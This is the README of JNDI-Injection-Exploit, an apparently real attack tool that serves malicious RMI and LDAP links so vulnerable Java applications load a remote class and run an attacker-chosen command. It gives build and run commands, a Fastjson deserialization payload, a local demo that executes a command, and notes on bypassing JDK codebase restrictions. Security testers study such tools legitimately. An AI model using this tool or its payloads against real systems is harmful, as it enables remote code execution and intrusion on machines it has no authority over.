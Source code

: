 # JNDI-Injection-Exploit

[Materials about JNDI Injection](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)

[中文文档](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/README-CN.md)

[相关文章](https://www.cnblogs.com/Welk1n/p/11066397.html)

## Description

JNDI-Injection-Exploit is a tool for generating workable JNDI links and provide background services by starting RMI server,LDAP server and HTTP server. RMI server and LDAP server are based on  [marshals](https://github.com/mbechler/marshalsec) and modified further to link with HTTP server. 

Using this tool allows you get JNDI links, you can insert these links into your **POC** to test vulnerability. 

For example, this is a Fastjson vul-poc:

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Object","autoCommit":true}
```

We can replace  "rmi://127.0.0.1:1099/Object" with the link generated by JNDI-Injection-Exploit to test vulnerability. 

## Disclaimer

All information and code is provided solely for educational purposes and/or testing your own systems for these vulnerabilities.

## Usage

 Run as

```shell
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

where:

- **-C** - command executed in the remote classfile.

  (optional , default command is "open /Applications/Calculator.app")

- **-A** - the address of your server, maybe an IP address or a domain.

  (optional , default address is the first network interface address)

Points for attention:

- make sure your server's ports (**1099**, **1389**, **8180**) are available .

  or you can change the default port in the run.ServerStart class line 26~28.

- your command is passed to **Runtime.getRuntime().exec()** as parameters, 

  so you need to ensure your command is workable in method exec().
  
  **Command in bash like "bash -c ...." need to add Double quotes.**

## Examples

 Local demo:

1. Start the tool like this:

   ```shell
   $ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open /Applications/Calculator.app" -A "127.0.0.1"
   ```

    Screenshot:

   ![image-20191018154346759](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/screenshots/1.png)

2. Assume that we inject the JNDI links like rmi://ADDRESS/jfxllc generated in step 1 to a vulnerable application which can be attacked by JNDI injection.

   In this example, it looks like this:

   ```java
   public static void main(String[] args) throws Exception{
       InitialContext ctx = new InitialContext();
       ctx.lookup("rmi://127.0.0.1/fgf4fp");
   }
   ```

   then when we run this code, the command will be executed ,

   and the log will be printed in shell:

   ![image-20191018154515787](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/screenshots/2.png)



## Installation

We can select one of the two methods to get the jar.

1. Download the latest jar from [Realease](https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar).

2. Clone the source code to local and build (Requires Java 1.8+ and Maven 3.x+).

   ```shell
   $ git clone https://github.com/welk1n/JNDI-Injection-Exploit.git
   ```

   ```shell
   $ cd JNDI-Injection-Exploit
   ```

   ```shell
   $ mvn clean package -DskipTests
   ```

## To do

- (**Done**)Combine this project and [JNDI-Injection-Bypass](https://github.com/welk1n/JNDI-Injection-Bypass) to generate workable links when **trustURLCodebase is false** in higher versions of JDK by default.
- … ...
